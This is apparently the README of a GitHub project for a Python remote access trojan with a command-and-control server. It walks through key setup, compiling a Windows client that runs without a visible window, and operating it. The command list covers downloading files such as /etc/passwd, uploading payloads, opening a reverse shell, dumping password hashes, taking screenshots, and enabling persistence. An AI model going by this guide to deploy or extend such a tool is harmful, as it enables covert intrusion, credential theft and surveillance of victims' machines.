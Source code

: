 ## Python RAT

### Introduction

This project is a minimal implementation of a Client-Server RAT.

### Install

In order to install the dependencies, you must run the following command: (with or without venv, as you wish)

```bash
pip install -r requirements.txt
```

The server encrypts the communication with the agents. You must generate a private key and a certificate for the server. You can do it by running the following command:

1. Generate the private key:
```bash
openssl genpkey -algorithm RSA -out server.key
```
2. Generate the csr from the private key:
```bash
openssl req -new -key server.key -out server.csr
```
3. Sign the csr with the private key:
```bash
openssl x509 -req -days 365 -in server.csr -signkey server.key -out server.crt
```

Please, name the files as `server.key` and `server.crt` and place them in the `C2` directory.

### Build

#### Linux

As agreed, the linux client will be executed by the python interpreter. So, no build is required. However, you must install the dependencies before.

#### Windows

For Windows client, you must additionally compile the client by running the following command: (`pyinstaller` must be installed in the previous step)

```bash
pyinstaller --noconsole --onefile main.py
```

or

```bash
python3 -m PyInstaller --noconsole --onefile main.py
```

`--noconsole` means that no window will pop up when the executable is executed.

You must find the executable in the `dist` directory.

If you got an error, check [this](https://pyinstaller.org/en/stable/installation.html#troubleshooting-missing-pyinstaller-command).

### Usage
#### Client

```
usage: main.py [-h] [-d] [--ip IP] [--port PORT]

Client for the C2

options:
  -h, --help   show this help message and exit
  -d, --debug  Enable debug mode
  --ip IP      Server IP (default: 127.0.0.1)
  --port PORT  Server Port (default: 8888)
```

You can run the client by executing the following command:

```bash
python3 main.py
```

#### Server

In order to start the server, you must specify the listening port as the first argument: (`C2` folder)

```bash
python3 main.py YOUR_PORT
```

### Available commands on the server
```
<command> [args]
====================
agents      : List all connected agents
agent       : Select an agent by ID | ID: Integer | Ex: agent 3
bg          : Deselect the current agent
kill        : Kill an agent by id | ID: Integer | kill 4
exec        : Execute a system command in the local machine
help        : Show this help message
exit        : Exit the server
==================== ONCE AGENT SELECTED:
download    : Download the specified files | FILE: String | Ex: download /etc/passwd /etc/hosts
upload      : Upload a file to selected target | LOCAL_FILE: String   REMOTE_DEST: String | upload payload.exe /tmp/payload.exe
search      : Search a file on the target's filesystem 
shell       : Open a reverse shell from the selected agent (type exit to quit the shell) (not interactive)
hashdump    : Dump the hashes from the target (may crash on Windows)
ipconfig    : Retrieve the IP Configuration from the current target 
screenshot  : Take a screenshot from the selected agent, you can optionally specify a name for the screenshot | Optional: FILE: String | screenshot [my_screenshot]
====================
```

### Misc

#### Persistancy

In order to enable persistancy, you must uncomment the following line twice in the `main.py`, at the end of the file:

```python
#client.persistence()
```

### Files structure

```
- C2/
    - main.py: Start the server, should be run with python
    - server.py: Server class, handles the communication with the agents
    - server.key: Private key for the server
    - server.crt: Certificate for the server
    - symbols.py: Custom codes for the communication
    - agent.py: Agent class
- Client/
    - client.py: Client mother class, points to the correct client depending on the OS
    - linuxClient.py: Linux client class
    - windowsClient.py: Windows client class
    - symbols.py: Custom codes for the communication, must be the same as the server. Redundant because of the portability.
```